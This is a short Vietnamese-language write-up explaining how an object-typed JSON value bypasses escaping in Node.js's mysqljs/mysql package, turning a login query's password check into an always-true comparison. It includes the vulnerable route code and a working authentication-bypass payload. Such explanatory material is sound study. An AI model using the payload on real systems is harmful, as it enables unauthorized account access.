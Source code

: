# SQLi thông qua bypass hàm escape trong package mysqljs/mysql của nodejs
Thông thuờng, query escape functions hay bind param thuờng đưọc sử dụng để tránh lỗ hổng SQLi. Nhưng đối với MySQL package ``mysqljs/mysql`` trong Nodejs, ta sẽ có những phuơng thức escape khác nhau đối với các loại giá trị khác nhau => Nó có thể gây ra các hành vi không mong muốn khi kẻ tấn công truyền 1 tham số với loại giá trị khác. Ví dụ trong truờng hợp sau:


``/api/login`` lấy tên người dùng & mật khẩu từ đầu vào của người dùng.
```
router.post('/api/login', async (req, res) => {
	const { username, password } = req.body;

	if (username && password) {
		return db.loginUser(username, password)
[...]
 module.exports = database => {
	db = database;
	return router;
};
```

Nó đưọc pass đến hàm ``loginUser()`` và sau đó pass vào câu truy vấn prepare statement:
```
async loginUser(user, pass) {
    return new Promise(async (resolve, reject) => {
        let stmt = 'SELECT username FROM users WHERE username = ? AND password = ?';
        this.connection.query(stmt, [user, pass], (err, result) => {
```

Và vì mình điều khiển đưọc type của input đầu vào, ta có thể truyền vào với payload như sau:
```
{"username":"admin","password": {"password": 1}}
```

root cause: [here](https://github.com/mysqljs/mysql/blob/master/Readme.md#escaping-query-values)

>Objects are turned into `key = 'val'` pairs for each enumerable property on the object. If the property's value is a function, it is skipped; if the property's value is an object, toString() is called on it and the returned value is used.

Cụ thể hơn, thì giờ prepared statement sẽ có dạng như sau:
```
SELECT username FROM users WHERE username = 'admin' AND password = `password` = 1
```

``password = \`password\` => True(1) = 1 => True => bypass``

